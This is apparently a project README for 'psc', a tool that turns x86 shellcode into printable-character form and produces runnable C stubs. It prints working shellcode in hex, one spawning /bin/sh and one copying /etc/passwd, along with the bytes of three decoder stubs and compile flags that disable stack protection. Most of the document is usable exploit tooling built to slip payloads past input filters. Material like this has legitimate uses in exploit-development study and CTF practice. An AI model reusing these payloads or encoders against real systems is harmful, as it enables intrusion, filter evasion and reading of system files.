 # `psc`: Printable Shellcode Compiler

## Getting started
The entire tool resides in `psc.c`. To compile & install the tool, run -

```bash
make
sudo make install
```

The install command copies the psc (executable) and psc.7 (man page) to system directories prefixed at `/usr/local`.

To run without installing -

```bash
# access man page
man ./psc.7

# run the tool
./psc <some_shellcode>
```

## Basic commands

To get printable shellcode of an arbitrary shellcode ("\xcd\x80..") -

```bash
psc "\xcd\x80.."
```

To generate a C stub along with the printable shellcode -

```bash
# generate the C stub
psc -c "\xcd\x80.." >run.c

# compile the output & run it
gcc -m32 -fno-stack-protector -z execstack -o run run.c
./run
```

Retrieve only the encoded payload from the printable shellcode -

```bash
psc -e "\xcd\x80.."
```

For an exhaustive list of options and examples, please refer to the man page of psc.

## Examples

Shellcode: Spawn /bin/sh

```bash
# generate C stub
./psc -c "\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" >run.c

# compile & run the output
gcc -m32 -fno-stack-protector -z execstack -o run run.c
./run
```

Shellcode: Copy `/etc/passwd` to `/tmp/outfile`

```bash
# generate C stub
./psc -c "\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80" >run.c

# compile & run the output
gcc -m32 -fno-stack-protector -z execstack -o run run.c
./run

# verify
cat /tmp/outfile
```

## Our Decoder

### Non-Printable-Decoder

`\x60\x50\x59\x8d\x49\x43\x51\x5a\x80\x39\x26\x74\x35\x30\xc0\x30\xdb\x32\x01\x40\xc0\xe0\x04\x41\x32\x19\x43\xc0\xe3\x02\xc0\xeb\x04\x30\xd8\x88\x02\x42\x30\xc0\x30\xdb\x32\x01\x40\x41\x32\x19\x43\xc0\xe0\x06\xc0\xe3\x02\xc0\xeb\x02\x30\xd8\x88\x02\x42\x41\x75\xc6\x61`


### Printable-Decoder

`\x60\x50\x59\x6a\x30\x58\x34\x30\x48\x50\x5b\x6a\x30\x58\x30\x59\x35\x30\x41\x4f\x30\x59\x4f\x30\x59\x60\x30\x41\x61\x30\x59\x61\x30\x41\x62\x30\x59\x69\x30\x41\x6a\x30\x59\x6a\x30\x41\x6b\x30\x59\x6d\x30\x59\x6e\x72\x49\x49\x30\x59\x37\x30\x41\x38\x30\x59\x38\x30\x41\x39\x30\x59\x3d\x30\x59\x3e\x30\x59\x47\x51\x5a\x4f\x79\x49\x26\x74\x3c\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x49\x43\x3f\x2c\x34\x32\x41\x4a\x40\x24\x3C\x3f\x27\x32\x30\x27\x77\x42\x49\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x4a\x43\x32\x41\x4b\x40\x3f\x2c\x36\x24\x3f\x30\x27\x77\x42\x4a\x42\x42\x41\x41\x41\x75\x41\x61`


### Printable-Decoder-Handler

`\x60\x50\x59\x6a\x30\x58\x34\x30\x48\x50\x5b\x6a\x30\x58\x30\x59\x35\x30\x41\x4f\x30\x59\x4f\x30\x59\x60\x30\x41\x61\x30\x59\x61\x30\x41\x62\x30\x59\x69\x30\x41\x6a\x30\x59\x6a\x30\x41\x6b\x30\x59\x6d\x30\x59\x6e\x72\x49\x49\x30\x59\x37\x30\x41\x38\x30\x59\x38\x30\x41\x39\x30\x59\x3d\x30\x59\x3e\x30\x59\x47\x51\x5a\x4f\x79\x5b\x26\x74\x3c\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x5b\x43\x3f\x2c\x34\x32\x41\x5c\x40\x24\x3C\x3f\x27\x32\x30\x27\x77\x42\x5b\x6a\x30\x58\x34\x30\x50\x5b\x32\x59\x5c\x43\x32\x41\x5d\x40\x3f\x2c\x36\x24\x3f\x30\x27\x77\x42\x5c\x42\x42\x41\x41\x41\x75\x41\x61\x31\xc0\xb0\x14\xcd\x80\x50\x5b\x31\xc0\x31\xc9\xb0\x25\xb1\x0f\xcd\x80`
